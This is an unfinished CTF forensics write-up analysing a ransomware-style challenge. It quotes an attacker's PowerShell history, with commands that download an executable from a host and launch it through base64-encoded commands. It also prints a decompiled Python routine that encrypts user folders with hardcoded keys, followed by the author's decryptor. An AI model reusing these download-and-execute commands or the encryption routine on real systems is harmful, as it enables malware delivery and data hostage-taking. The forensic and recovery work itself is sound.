 # [ WriteUp/Notes ] Black Meet Wukong (unsolved)  | Forensic - World Wide CTF 2024 

## By: Haaloobim as [HCS](https://ctftime.org/team/70159)

## Description 
1. Scenario: 
Our system was attacked by a mysterious attacker. Could you help me recover the system and trace their footprint? (Flag has 2 parts!)<br />

2. Tools :
- [FTK Imager](https://accessdata-ftk-imager.software.informer.com/3.1/)

## How to solve? 

- We got an .ad1 file, and from this we will analyze it in FTK Imager. 

![](./src/ftk.png)

- From now on, i started to analyze the file, because the desc mentioned about mysterious attacker, im trying too look up the foothold of these atacker. After search/analyze it, i found out that the attacker use powershell to download the malware as it found in this path `\[root]\Users\wukong\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt` 

here is the part of the powershell script that has been run. 

```ps1
...
Invoke-WebRequest http://192.168.56.104:8000/bLAcKmEeTWUkOng.exe -OutFile C:\Users\wukong\AppData\Local\
Invoke-WebRequest http://192.168.56.102:8000/bLAcKmEeTWUkOng.exe -OutFile C:\Users\wukong\AppData\Local\
Invoke-WebRequest http://192.168.56.102:8000/bLAcKmEeTWUkOng.exe -OutFile C:\Users\wukong\AppData\Local\blackmythwukong.exe
...
powershell -e 'U3RhcnQtUHJvY2VzcyAtRmlsZVBhdGggIkM6XFxVc2Vyc1x3dWtvbmdcQXBwRGF0YVxMb2NhbFxibGFjS21lZVRXVmtPbmdfZXhlIg=='
$base64Command = 'U3RhcnQtUHJvY2VzcyAtRmlsZVBhdGggIkM6XFxVc2Vyc1x3dWtvbmdcQXBwRGF0YVxMb2NhbFxibGFjS21lZVRXVmtPbmdfZXhlIg=='  # Replace this string with your actual Base64 command`
$bytes = [Convert]::FromBase64String($base64Command)`
$command = [System.Text.Encoding]::Unicode.GetString($bytes)`
powershell Invoke-Expression $command`

ls
clear
powershell -e 'U3RhcnQtUHJvY2VzcyAtRmlsZVBhdGggIkM6XFxVc2Vyc1xcd3Vrb25nXFxBcHBEYXRhXFxMb2NhbFxcYkxBY0ttRWVUV1VrT25nLmV4ZSI=='
clear
$base64Command = 'U3RhcnQtUHJvY2VzcyAtRmlsZVBhdGggIkM6XFxVc2Vyc1x3dWtvbmdcQXBwRGF0YVxMb2NhbFxibGFjS21lZVRXVmtPbmdfZXhlIg==' 
$bytes = [Convert]::FromBase64String($base64Command)
$command = [System.Text.Encoding]::Unicode.GetString($bytes)
Invoke-Expression $command
...
powershell -e 'UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAC0ARgBpAGwAZQBQAGEAdABoACAAQwA6AFwAVQBzAGUAcgBzAFwAdwB1AGsAbwBuAGcAXABBAHAAcABEAGEAdABhAFwATABvAGMAYQBsAFwAYgBMAEEAYwBLAG0ARQBlAFQAVwBVAGsATwBuAGcALgBlAHgAZQA='
```

As we know, that the malware installed in this path `[root]\Users\wukong\AppData\Roaming\Microsoft\Windows\` 

After we dump the malware, now i know that the malware have python based application. And also i decompile the application use this online tool, [pyinsaller extarctor](https://pyinstxtractor-web.netlify.app/) and this [pyc decompiler](https://pylingual.io/) and here is the python malware script -> [script](./src/scriptWukongMalware.py)

Based on the analysis from the malware script, we found out that the malware script encrypt between theese directories:

```
'C:\\Users\\{}\\Documents'.format(PC_username)
'C:\\Users\\{}\\Pictures'.format(PC_username)
'C:\\Users\\{}\\Desktop'.format(PC_username)
'C:\\Users\\{}\\Downloads'.format(PC_username)
```

and using theese encryptor:

```py
key_fernet = [b'zTskoYGm68VrSiOM6J9W0PqyKTfSyraM0NydVmJvM_k=', b'pcD23bRQTL1MqLS84NdPsiPdYJlwbTaal6JmulzTq4k=', b'9EBQNDjmy0rGXCbVgVnrgFFsAHk4Ye1M8y1GSIx9CPY=', b'663RnK5l0MQzewfpAQfYhJbL3p7ZRoR-j7I3DkXiUIk=', b'I5Arxkgfo2E56VBVctFjJ-pFkeBbQg6QXMuG-gNgqq4=', b'eXP1sKfkTE9PNkWR8rA9jzJqun80yMYPrzMMi65JQpw=', b'56S9Sv7zUPL71w6N2OTSwxvFl_a-5zvsN6rxQI97UWU=', b'gZcRMaVftMg_F9E4tNQ_etAR7_PKT_vVfWwWkMSxDQc=', b'-XmaKL4uo4p0gM5ARQZtxjZ_5ecK1w53AEkWuiWDIzQ=', b'ikNfBtrrX-9EBI3iKzWnBJW5wNNvi8rM4oT9BLqDJNw=', b'uEikHaHAX1B20aB_bcQwUA0aO21Ai-rgYAqGfKxHKJA=', b'deoHTwNvwTOuQjoy5oh9jN_ZQlLbVCvwI47D3sQt8UA=', b'xuaD7BqwreniKZAvBO38MO250oO40HXboxhU8--6YQ0=', b'X5GfY_zukIDPKxyzmMYFkps-Av8Ao2TQDPmckrjb3ZQ=', b'CAOD7XSW4e-ON33uz5_8h6RZhorDlKg798e1RcEYSlo=', b'dMphwlwO6Qh_FCdbMzseoZsWkQWPFtGx8VSiFAN2SSo=', b'q4NfcRieLIKnyBwFEhUxZcR_8A3BFS_n_cIE8sFX8a4=', b'hLfAPR06xuo545qJlzlYko5f9KKuXOBrCBNgzruTV14=']
key_xori = 'y0u_l00k_l1k3_X1sh1_&_b3_my_l4dy'

def god_bless_aes(data, key):
    key = key.encode('utf-8')
    cipher = AES.new(key, AES.MODE_ECB)
    padded_text = pad(data, AES.block_size)
    cipher_text = cipher.encrypt(padded_text)
    return cipher_text

def xoriiiiiiiiiii(data, key):
    return bytearray([b ^ key[i % len(key)] for i, b in enumerate(data)])

def crypter_fichier(file_path, output_path):
    with open(file_path, 'rb') as file:
        original_data = file.read()
    encrypted_data = original_data
    for key in key_fernet:
        fernet = Fernet(key)
        encrypted_data = fernet.encrypt(encrypted_data)
    encrypted_data = xoriiiiiiiiiii(encrypted_data, key_fernet[0])
    final = god_bless_aes(encrypted_data, key_xori)
    with open(output_path, 'wb') as enc_file:
        enc_file.write(final)
```

and here is my decryptor for the the encrypt system. 

```py
from Crypto.Util.Padding import unpad
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
from cryptography.fernet import Fernet

key_fernet = [b'zTskoYGm68VrSiOM6J9W0PqyKTfSyraM0NydVmJvM_k=', b'pcD23bRQTL1MqLS84NdPsiPdYJlwbTaal6JmulzTq4k=', b'9EBQNDjmy0rGXCbVgVnrgFFsAHk4Ye1M8y1GSIx9CPY=', b'663RnK5l0MQzewfpAQfYhJbL3p7ZRoR-j7I3DkXiUIk=', b'I5Arxkgfo2E56VBVctFjJ-pFkeBbQg6QXMuG-gNgqq4=', b'eXP1sKfkTE9PNkWR8rA9jzJqun80yMYPrzMMi65JQpw=', b'56S9Sv7zUPL71w6N2OTSwxvFl_a-5zvsN6rxQI97UWU=', b'gZcRMaVftMg_F9E4tNQ_etAR7_PKT_vVfWwWkMSxDQc=', b'-XmaKL4uo4p0gM5ARQZtxjZ_5ecK1w53AEkWuiWDIzQ=', b'ikNfBtrrX-9EBI3iKzWnBJW5wNNvi8rM4oT9BLqDJNw=', b'uEikHaHAX1B20aB_bcQwUA0aO21Ai-rgYAqGfKxHKJA=', b'deoHTwNvwTOuQjoy5oh9jN_ZQlLbVCvwI47D3sQt8UA=', b'xuaD7BqwreniKZAvBO38MO250oO40HXboxhU8--6YQ0=', b'X5GfY_zukIDPKxyzmMYFkps-Av8Ao2TQDPmckrjb3ZQ=', b'CAOD7XSW4e-ON33uz5_8h6RZhorDlKg798e1RcEYSlo=', b'dMphwlwO6Qh_FCdbMzseoZsWkQWPFtGx8VSiFAN2SSo=', b'q4NfcRieLIKnyBwFEhUxZcR_8A3BFS_n_cIE8sFX8a4=', b'hLfAPR06xuo545qJlzlYko5f9KKuXOBrCBNgzruTV14=']
key_xori = 'y0u_l00k_l1k3_X1sh1_&_b3_my_l4dy'

def god_bless_aes_decrypt(data, key):
    key = key.encode('utf-8')
    cipher = Cipher(algorithms.AES(key), modes.ECB(), backend=default_backend())
    decryptor = cipher.decryptor()
    decrypted_data = decryptor.update(data) + decryptor.finalize()
    
    unpadded_data = unpad(decrypted_data, algorithms.AES.block_size // 8)
    return unpadded_data

def xor_decrypt(data, key):
    return bytearray([b ^ key[i % len(key)] for i, b in enumerate(data)])

def decrypter_fichier(input_path, output_path):
    with open(input_path, 'rb') as enc_file:
        encrypted_data = enc_file.read()
    
    aes_decrypted = god_bless_aes_decrypt(encrypted_data, key_xori)
    
    xor_decrypted = xor_decrypt(aes_decrypted, key_fernet[0])
    decrypted_data = bytes(xor_decrypted)
    for key in reversed(key_fernet):
        fernet = Fernet(key)
        decrypted_data = fernet.decrypt(decrypted_data)
    
    with open(output_path, 'wb') as file:
        file.write(decrypted_data)

import os
target_path = 'Documents'
decrypt_path = 'Decrypted'
## os walks in target_path
for root, dirs, files in os.walk(target_path):
    for file in files:
        if file.endswith('.odin'):
            input_path = os.path.join(root, file)
            output_path = os.path.join(decrypt_path, file.replace('.odin', ''))
            decrypter_fichier(input_path, output_path)


```

after doing the decryption found one image that show us the first flag 

![](./src/wukong.png)

TBC..